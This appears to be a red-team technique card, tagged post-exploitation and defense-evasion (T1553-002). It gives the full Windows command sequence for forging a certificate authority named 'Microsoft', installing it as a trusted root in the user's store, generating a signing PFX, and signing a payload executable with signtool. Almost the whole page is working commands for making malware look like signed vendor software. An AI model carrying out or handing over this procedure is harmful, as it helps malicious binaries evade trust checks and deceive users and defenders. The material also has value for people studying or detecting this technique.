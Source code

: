 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - living-off-the-land
  - T1553-002
  - windows
---
```

# Sysinternals

Generate a authority certificate `CertUtil.exe`.

```
C:\> makecert.exe -r -pe -n "CN=Microsoft" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv MicrosoftCA.pvk MicrosoftCA.cer
```

Then install the root certificate

```
C:\> CertUtil.exe -user -addstore Root MicrosoftCA.cer

PS C:\> Import-Certificate -FilePath MicrosoftCA.cer -CertStoreLocation Cert:\CurrentUser\Root\
```

Create `.pfx` from the certificate.

```
C:\> makecert.exe -pe -n "CN=Microsoft Cert" -a sha256 -cy end -sky signature -ic MicrosoftCA.cer -iv MicrosoftCA.pvk -sv MicrosoftCert.pvk MicrosoftCert.cer

C:\> pvk2pfx.exe -pvk MicrosoftCert.pvk -spc MicrosoftCert.cer -pfx MicrosoftCert.pfx
```

Sign the binary payload with a certificate.

> [!INFO]
> You can run this in `wine` through Linux.

```
C:\> signtool.exe sign /v /f MicrosoftCert.pfx /t http://timestamp.digicert.com/?alg=sha1 payload.exe

C:\> signtool.exe sign /fd sha256 /a /tr http://timestamp.digicert.com <payload_name>
```

---
## References

### Source Repository

- [LazySign](https://github.com/jfmaes/LazySign)

### Microsoft

- [Microsoft: Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/)